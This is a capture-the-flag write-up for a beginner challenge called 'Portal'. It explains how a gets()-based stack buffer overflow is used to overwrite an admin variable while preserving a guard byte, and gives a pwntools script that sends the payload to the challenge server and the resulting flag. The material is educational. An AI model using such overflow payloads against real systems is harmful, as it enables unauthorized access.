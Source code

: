 ### Portal
![Question](https://github.com/alexbravo17/SecEduCTF2024Writeup/blob/main/Week1/images/portalq.png)

Given chal.c

`gets()` means this is probably a buffer overflow
However, there is simple protection used in this case, cannot go overboard on overflowing

The approach is pretty nooby, since I forgot how to do buffer overflow
printf the protect and admin values, try lengths of input until the values change
Then, retain value of protect and change admin

Offset is 10, next byte should be `\0`, then `A` then any byte other than 0
Make sure the 10 filler is not A, since chal.c checks for that
I used username but password may also work, for this I sent nothing to password

created simple pwntools program pwned.py

```
from pwn import *

offset = 10
host = "chals.secedu.site"
port = 5000

elf = ELF("./chal")
# p = elf.process()
p = remote(host, port)

payload = b'B' * offset + b'\0' + b'A' + b'1'

log.info(p.recv())
p.sendline(payload)
log.info(p.recv())
p.sendline(b'')
log.success(p.recv())
```

Got flag **SECEDU{por74l_to_n0wh3r3}**